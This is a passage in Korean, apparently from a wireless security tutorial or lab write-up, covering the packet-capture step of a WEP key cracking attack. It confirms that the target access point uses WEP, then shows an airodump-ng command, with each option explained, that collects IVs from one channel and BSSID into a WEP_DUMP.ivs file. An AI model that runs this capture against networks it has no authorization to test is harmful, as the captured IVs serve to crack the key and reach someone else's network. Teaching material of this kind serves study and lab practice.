 - 공격 대상 AP와 encryption이 WEP임을 확인한다.
    
    ![unnamed-9.png](img/unnamed-9.png)
    
- `airodump-ng` 명령어를 이용해 무선랜 패킷을 수집한다.
    
    ```java
    airodump-ng –ivs -c 1 -w WEP_DUMP –bssid <MAC address> wlan0
    –ivs: 무선랜 패킷 스니핑 시 암호화 크랙에 필요한 IV만 수집한다.
    -c 1: 통신 채널 1만 스니핑한다.
    -w WEP_DUMP: WEP 키에 관한 내용을 WEP_DUMP.ivs 파일에 저장한다.
    –bssid <MAC address>: AP의 MAC 주소가 지정한 주소인 패킷만 저장한다.
    ```
    
- 디렉토리에 *WEP_DUMP.ivs* 파일이 생성된 모습이다.
    
    ![unnamed-10.png](img/unnamed-10.png)
    
